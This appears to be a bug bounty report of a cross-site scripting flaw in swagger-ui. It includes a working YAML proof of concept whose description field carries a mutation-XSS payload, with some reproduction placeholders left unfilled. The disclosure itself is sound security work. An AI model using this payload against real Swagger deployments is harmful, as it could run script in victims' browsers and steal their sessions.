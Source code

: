 ## Summary:
Hi team, It was found xss reflected on swagger api

swagger-ui is a library that allows interaction and visualisation of APIs.

Affected versions of this package are vulnerable to Cross-site Scripting (XSS). It is possible to execute JavaScript by providing a YAML file with a description field. Any YAML file can trigger the vulnerability, whether it's imported from url or copied and pasted directly in the editor.

**Note when providing a YAML, in order to achieve xss, it can be used the following template:**

```
swagger: '2.0'
info:
  title: Example yaml.spec
  description: |
    <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><img src='#' onerror='alert(window.origin)'>">
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts
```

## Steps To Reproduce:

  1. Access the url `{{data}}`
  2. See the pupup in the screen

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

## Impact

* An attacker that can control the code executed in a victim browser can usually fully compromise this victim. This includes :
* Perform any action within the application that the user can perform.
* Modify any information that the user is able to modify.
* Steal user cookies
* Redirect to phishing site
